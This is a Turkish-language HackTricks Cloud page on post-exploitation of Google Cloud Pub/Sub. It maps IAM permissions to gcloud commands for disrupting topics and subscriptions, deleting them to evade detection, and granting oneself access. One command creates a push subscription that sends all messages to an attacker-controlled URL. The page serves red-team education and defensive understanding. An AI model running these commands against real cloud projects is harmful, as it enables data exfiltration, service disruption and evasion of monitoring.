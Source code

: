 # GCP - Pub/Sub Sonrası Sızma

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'ı **takip edin**.
* Hacking hilelerinizi **HackTricks** ve **HackTricks Cloud** github depolarına PR göndererek paylaşın.

</details>

## Pub/Sub

Pub/Sub hakkında daha fazla bilgi için aşağıdaki sayfaya bakın:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Bir konuda bir mesaj yayınlayın, **beklenmeyen veri** göndermek ve beklenmedik işlevsellikleri tetiklemek veya zafiyetleri sömürmek için kullanışlıdır:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Bu, bir aboneliğin mesaj almasını engellemek için kullanışlıdır, belki de tespit edilmeyi önlemek için.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Bir aboneliğin mesaj almasını engellemek için kullanışlıdır, belki de tespit edilmekten kaçınmak için.\
Bir konuya bağlı abonelikler olsa bile bir konuyu silmek mümkündür.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Bu izni kullanarak, `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key` gibi konunun bazı ayarlarını güncelleyerek bozmak için kullanabilirsiniz.

### `pubsub.topics.setIamPolicy`

Kendinize önceki saldırılardan herhangi birini gerçekleştirme izni verin.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Bir web sunucusunda tüm mesajları alın:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Bir abonelik oluşturun ve bunu kullanarak **mesajları çekin**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Bir aboneliği silmek** bir günlük işleme sistemi veya benzer bir şeyi bozmak için kullanışlı olabilir:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### &#x20;`pubsub.subscriptions.update`

Bu izni kullanarak, mesajların erişebileceğiniz bir yere (URL, Big Query tablosu, Bucket) kaydedilmesi veya sadece işleyişini bozmak için bazı ayarları güncelleyebilirsiniz.

### `pubsub.subscriptions.setIamPolicy`

Daha önce yorumlanan saldırıları gerçekleştirmek için gereken izinleri kendinize verin.

### `pubsub.schemas.delete`

Şemayı silerek, şemayı karşılamayan mesajları gönderebilirsiniz.
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Bir şemayı bir konuya ekleyerek mesajların şemayı karşılamamasını sağlayın ve böylece konu bozulur.\
Eğer hiçbir şema yoksa, bir tane oluşturmanız gerekebilir.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.setIamPolicy`

Kendinize, önceden yorumlanmış saldırıları gerçekleştirmek için gereken izinleri verin.

### `pubsub.snapshots.create`,  `pubsub.snapshots.seek`

Bu, tüm onaylanmamış mesajların bir anlık görüntüsünü oluşturacak ve bunları aboneliğe geri yerleştirecektir. Bir saldırgan için çok kullanışlı olmasa da işte burada:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
<details>

<summary><strong>AWS hackleme becerilerini sıfırdan kahraman seviyesine öğrenmek için</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>'ı öğrenin!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'ı takip edin.**
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>
